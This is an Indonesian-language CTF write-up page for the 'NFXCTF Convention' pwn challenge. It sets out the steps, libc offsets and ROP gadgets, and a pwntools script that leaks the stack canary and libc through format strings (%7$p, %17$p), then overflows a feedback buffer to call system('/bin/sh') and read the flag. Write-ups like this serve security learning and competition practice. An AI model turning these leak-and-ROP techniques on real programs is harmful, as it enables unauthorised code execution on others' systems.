


# NFXCTF Convention — Eksploitasi

[← Overview](10-nfxctf-convention.md) · [Index](index.md)

## 3.1 Strategi

1. Register nama apa saja.
2. Main mini-game 10 soal → rank 5 (agar `edit_name` diizinkan).
3. Edit nama dengan payload 64+4+0x14 → rank 2580 (VIP).
4. Leak canary (`%7$p`) dan libc (`%17$p`) lewat feedback + view profile.
5. Kirim feedback kedua: 104 filler + canary + saved RBP + ROP `ret; pop rdi; "/bin/sh"; system`.
6. Shell → `cat flag.txt`.

## 3.2 Offset dan gadget (libc bawaan challenge)

| Item | Offset |
|---|---|
| return `main` → libc | `0x29d90` |
| `system` | `0x50d70` |
| `"/bin/sh"` | `0x1d8678` |
| `pop rdi ; ret` | `0x2a3e5` |
| `ret` (alignment) | `0x29cd6` |

## 3.3 Script exploit

Tersimpan lengkap di `writeups/assets/nfxctf-convention/exploit.py`. Bagian inti:

```python
p.sendlineafter(b'name: ', b'pwner')
play_to_rank5(p)                    # rank = 5
bump_rank(p)                        # strcpy overflow -> rank = 0x00000a14

canary   = int(leak(p, b'%7$p'), 16)
ret_libc = int(leak(p, b'%17$p'), 16)
libc_base = ret_libc - 0x29d90

payload  = b'A' * 104
payload += p64(canary) + p64(0)
payload += p64(libc_base + 0x29cd6)          # ret (alignment)
payload += p64(libc_base + 0x2a3e5) + p64(libc_base + 0x1d8678)
payload += p64(libc_base + 0x50d70)          # system("/bin/sh")
p.sendline(b'4'); p.recvuntil(b'Enter your feedback: ')
p.send(payload)
time.sleep(0.25)
p.sendline(b'cat flag.txt; echo PWNED_END')
```

Menjalankan:

```bash
cd writeups/assets/nfxctf-convention
echo 'NFX{LOCAL_TEST_FLAG_CONVENTION}' > flag.txt     # fixture uji lokal
python3 exploit.py | tee 03-exploit-run.txt
```

### Evidence langkah ini



*Terminal evidence — `03-exploit-run.txt` (arsip transkrip sesi solve).*



*Terminal evidence — `03b-leak-probe.txt` (arsip transkrip sesi solve).*
